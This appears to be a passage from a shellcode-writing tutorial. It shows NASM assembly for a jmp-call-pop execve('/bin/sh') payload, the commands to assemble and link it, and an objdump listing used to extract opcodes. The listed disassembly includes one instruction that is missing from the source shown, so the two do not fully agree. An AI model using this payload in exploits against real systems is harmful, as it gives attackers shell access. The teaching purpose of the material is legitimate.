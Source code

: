  
##
- The final assembly code that will be translated into shellcode looks like this:
```
Section		.text
  global _start
  
_start:
  jmp short	GotoCall
  
shellcode:
  pop		esi
  xor		eax, eax
  mov byte	[esi + 7], al
  lea		ebx, [esi]
  mov long	[esi + 8], ebx
  mov long	[esi + 12], eax
  mov byte	al, 0x0b
  lea		ecx, [esi + 8]
  lea		edx, [esi + 12]
  int		0x80
  
GotoCall:
  call		shellcode
  db		'/bin/shJAAAAKKKK'
```

- Compile and disassemble to get opcodes:
```
[root@linux]# nasm -f elf execve2.asm
// compiles the execve2.asm assembly file into  
//   an object file called execve2.o
[root@linux]# ld -o execve2 execve2.o
// links the object file to create an executable

[root@linux]# objdump -d execve2

execve2:     file format elf32-i386

Disassembly of section .text:

08048080 <_start>:
 8048080: eb 1a			jmp    804809c <GotoCall>

08048082 <shellcode>:
 8048082: 5e			pop    %esi
 8048083: 31 c0			xor    %eax,%eax
 8048085: 88 46 07		mov    %al,0x7(%esi)
 8048088: 8d 1e			lea    (%esi),%ebx
 804808a: 89 5e 08		mov    %ebx,0x8(%esi)
 804808d: 89 46 0c		mov    %eax,0xc(%esi)
 8048090: b0 0b			mov    $0xb,%al
 8048092: 89 f3			mov    %esi,%ebx
 8048094: 8d 4e 08		lea    0x8(%esi),%ecx
 8048097: 8d 56 0c		lea    0xc(%esi),%edx
 804809a: cd 80			int    $0x80

0804809c <GotoCall>:
 804809c: e8 e1 ff ff ff	call   8048082 <shellcode>
 80480a1: 2f			das
 80480a2: 62 69 6e		bound  %ebp,0x6e(%ecx)
 80480a5: 2f			das			
 80480a6: 73 68 		jae    8048110 <GotoCall+0x74>
 80480a8: 4a			dec    %edx
 80480a9: 41			inc    %ecx
```